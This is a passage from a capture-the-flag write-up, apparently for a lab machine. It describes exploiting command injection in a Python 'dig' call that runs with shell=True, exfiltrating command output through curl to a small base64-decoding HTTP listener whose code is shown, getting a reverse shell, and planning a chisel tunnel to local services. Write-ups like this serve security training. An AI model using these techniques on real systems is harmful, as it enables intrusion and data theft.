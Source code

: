 But the regex didn't contain the `^` and `$` symbol, so we can inject code at the end of the address, which will be executed then :
```python
else:
    domain = email.split("@", 1)[1]
    result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

I didn't succeed to create a reverse shell, but I can use the `curl` command and send output of subcommands base64 encoded and then send it to my Python HTTP server. I wrote a little handler to automatically decode the request and show the command output to make things easily.

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs
import base64

class MyHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        query = parse_qs(urlparse(self.path).query)
        if query['cmd']:
            print(f"Received command:")
            print(base64.b64decode(query['cmd'][0]).decode())

httpd = HTTPServer(('', <PORT>), MyHandler)
httpd.serve_forever()
```

After a break I came back and retry a Python reverse shell (I don't know why it didn't work the first time), so it will be easier for the next.

### Discovery

I'm now connected on the server as `www-data` user and we can see in `/home` two users: `dev` and `john`. So we need first to found a way to connect as one of these users.

### Search for vulnerability

First, we can search in configuration file and run a `linpeas.sh` to find any vulnerability to exploit. After some researches I didn't find anything. Then, I think about the network and we can find 3 services that run on the server only for local users :
```bash
$ ss -atlp
State    Recv-Q   Send-Q          Local Address:Port        Peer Address:Port   Process
[...]
LISTEN   0        4096                127.0.0.1:3000             0.0.0.0:*
LISTEN   0        2048                127.0.0.1:8001             0.0.0.0:*
LISTEN   0        4096       [::ffff:127.0.0.1]:7687                   *:*
LISTEN   0        50         [::ffff:127.0.0.1]:7474                   *:* 
[...]
```

We want to access these services from our machine, so we need to create a tunnel. For that we can use `chisel`, it will create a tunnel using HTTP Web sockets and SSH tunnels.
